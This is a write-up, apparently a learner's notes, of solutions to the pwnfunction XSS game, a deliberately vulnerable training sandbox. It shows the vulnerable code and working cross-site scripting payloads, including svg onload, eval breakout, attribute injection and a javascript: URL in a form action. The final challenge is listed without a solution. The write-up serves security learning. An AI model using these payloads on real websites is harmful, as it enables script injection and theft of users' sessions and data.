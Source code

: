 # pwnfunction XSS game

## Warmups

### Ma Spaghet!

```html
<h2 id="spaghet"></h2>
<script>
    spaghet.innerHTML = (new URL(location).searchParams.get('somebody') || "Somebody") + " Toucha Ma Spaghet!"
</script>
```

My solution: `https://sandbox.pwnfunction.com/warmups/ma-spaghet.html?somebody=<svg>onload=alert(1337)>`

### Jefff

```html
<h2 id="maname"></h2>
<script>
    let jeff = (new URL(location).searchParams.get('jeff') || "JEFFF")
    let ma = ""
    eval(`ma = "Ma name ${jeff}"`)
    setTimeout(_ => {
        maname.innerText = ma
    }, 1000)
</script>
```

- I tried concatenation where `%2b` is `+`: `https://sandbox.pwnfunction.com/warmups/jefff.html?jeff=abc"%2b"xyz`
- Then got a working payload: `https://sandbox.pwnfunction.com/warmups/jefff.html?jeff="%2balert(1337)%2b"`
- Intended solution: `"-alert(1337)-"`

### Ugandan Knuckles

```html
<div id="uganda"></div>
<script>
    let wey = (new URL(location).searchParams.get('wey') || "do you know da wey?");
    wey = wey.replace(/[<>]/g, '')
    uganda.innerHTML = `<input type="text" placeholder="${wey}" class="form-control">`
</script>
```

My solution (same as rxss-angles-encoded in portswigger): `" autofocus onfocus="alert(1337)`
Intended solution: `"onfocus=alert(1337) autofocus="`

### Ricardo Milos

```html
<form id="ricardo" method="GET">
    <input name="milos" type="text" class="form-control" placeholder="True" value="True">
</form>
<script>
    ricardo.action = (new URL(location).searchParams.get('ricardo') || '#')
    setTimeout(_ => {
        ricardo.submit()
    }, 2000)
</script>
```

- Spent a lot of time hacking the wrong parameter `milos` instead use `ricardo`.
- My solution: `https://sandbox.pwnfunction.com/warmups/ricardo.html?ricardo=javascript:alert(1337)`
- Intended solution: `javascript:alert(1337)`

### Ah That's Hawt

```html
<h2 id="will"></h2>
<script>
    smith = (new URL(location).searchParams.get('markassbrownlee') || "Ah That's Hawt")
    smith = smith.replace(/[\(\`\)\\]/g, '')
    will.innerHTML = smith
</script>
```

